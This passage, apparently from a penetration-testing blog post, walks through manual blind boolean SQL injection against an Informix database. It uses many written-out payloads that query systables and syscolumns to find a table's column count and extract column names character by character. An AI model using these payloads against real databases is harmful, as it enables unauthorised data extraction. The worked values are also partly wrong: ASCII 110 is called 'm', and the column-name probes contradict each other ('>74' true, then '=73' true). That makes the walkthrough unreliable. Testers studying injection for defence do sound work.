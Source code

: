 Based on the above, the ASCII value of the first letter of the first table must be 110, or "m".

For the sake of this blog post, the table that was enumerated in the above example is "empire". The rest of the table names could be enumerated using this method.

After enumerating a table name and associating it with a tabid value, we can start to build some column information.

The following query could be used to help figure out how many columns are in the table "empire":

```
1=1 AND (SELECT ncols FROM systables WHERE tabname = 'empire') = 1
#returned no data
1=1 AND (SELECT ncols FROM systables WHERE tabname = 'empire') = 2
#returned no data
1=1 AND (SELECT ncols FROM systables WHERE tabname = 'empire') = 3
#returned no data
1=1 AND (SELECT ncols FROM systables WHERE tabname = 'empire') = 4
#returned some data
1=1 AND (SELECT ncols FROM systables WHERE tabname = 'empire') = 5
#returned no data
```

The following query could be used to help figure out the name of the first column within the "empire" table:

```
1=1 AND (SELECT ascii(substring(colname from 1 for 1)) FROM syscolumns WHERE tabid = 1 AND colno = 1) > 64
#returned some data
1=1 AND (SELECT ascii(substring(colname from 1 for 1)) FROM syscolumns WHERE tabid = 1 AND colno = 1) > 96
#returned no data
1=1 AND (SELECT ascii(substring(colname from 1 for 1)) FROM syscolumns WHERE tabid = 1 AND colno = 1) > 80
#returned no data
1=1 AND (SELECT ascii(substring(colname from 1 for 1)) FROM syscolumns WHERE tabid = 1 AND colno = 1) > 72
#returned some data
1=1 AND (SELECT ascii(substring(colname from 1 for 1)) FROM syscolumns WHERE tabid = 1 AND colno = 1) > 76
#returned no data
1=1 AND (SELECT ascii(substring(colname from 1 for 1)) FROM syscolumns WHERE tabid = 1 AND colno = 1) > 74
#returned some data
1=1 AND (SELECT ascii(substring(colname from 1 for 1)) FROM syscolumns WHERE tabid = 1 AND colno = 1) = 73
#returned some data
```

## Enumerating Other SQL Users

When SQLMap was trying to enumerate the other SQL users, the table `sysusers` was used. And similar to the "enumerating other tables" section of this write up, the server would continue to respond with errors when SQLMap tried to enumerate other users.
